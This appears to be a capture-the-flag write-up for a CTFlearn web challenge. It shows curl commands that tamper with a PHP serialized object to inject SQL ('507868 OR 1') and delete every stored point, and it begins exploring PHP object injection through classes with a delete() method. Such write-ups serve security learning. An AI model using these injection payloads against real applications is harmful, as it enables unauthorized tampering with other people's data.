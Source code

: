 
### Adding points
Adding points is as simple as sending the request: `POST /controller.php?action=add_point data="x={x}&y={y}"`. 

The page is refusing to add a point which contains any non-digit character so at the moment we avoid any injection in here.
```sh
$ curl --cookie @sessid 'http://web.ctflearn.com/grid/controller.php?action=add_point' --data 'x=a' 
Must pass in both parameters.

$ curl --cookie @sessid 'http://web.ctflearn.com/grid/controller.php?action=add_point' --data 'x=a&y=b'
Must pass in digits.
```

### PHP Object Injection
We recieve a list of added points
```
ID: 507868 x: 300 y: 300 delete
ID: 507869 x: 400 y: 400 delete
```
 where *delete* links to: `http://web.ctflearn.com/grid/controller.php?action=delete_point&point=O:5:"point":3:{s:1:"x";s:3:"300";s:1:"y";s:3:"300";s:2:"ID";s:6:"507868";}`


We notice that `point` paramentr contains a **PHP serialized object**. First thing I tried was modifying the given object with a simple **SQL Injection** :
```sh
$ curl --cookie @sessid  'http://web.ctflearn.com/grid/controller.php?action=delete_point' --data-urlencode 'point=O:5:"point":3:{s:1:"x";s:3:"300";s:1:"y";s:3:"300";s:2:"ID";s:11:"507868 OR 1";}' --get
```

And voila, all of the points have vanished! 

In the mean time I had also tried some more advanced object manipulation. For example giving a wrong formatted serialized data results with the following error: 
> <br />
> <b>Notice</b>:  unserialize(): Error at offset 62 of 70 bytes in <b>/usr/share/nginx/html/web/grid/controller.php</b>on line <b>65</b><br />
> <br />
> <b>Fatal error</b>:  Call to a member function delete() on a non-object in <b>/usr/share/nginx/html/web/grid/controller.php</b> on line <b>66</b><br />

We read that `delete()` function is invoked on `point` object so maybe we could do some **PHP Object Injection**?
After quick listing classes containing `::delete()` method we get the following:
```sh
$ php -a
Interactive mode enabled

php >   foreach (get_declared_classes() as $class) {
php {     foreach (get_class_methods($class) as $method) {
php {       if ($method == "delete")
php {         echo "$class->$method\n";
php {     }
php {   }
Phar->delete
PharData->delete
```
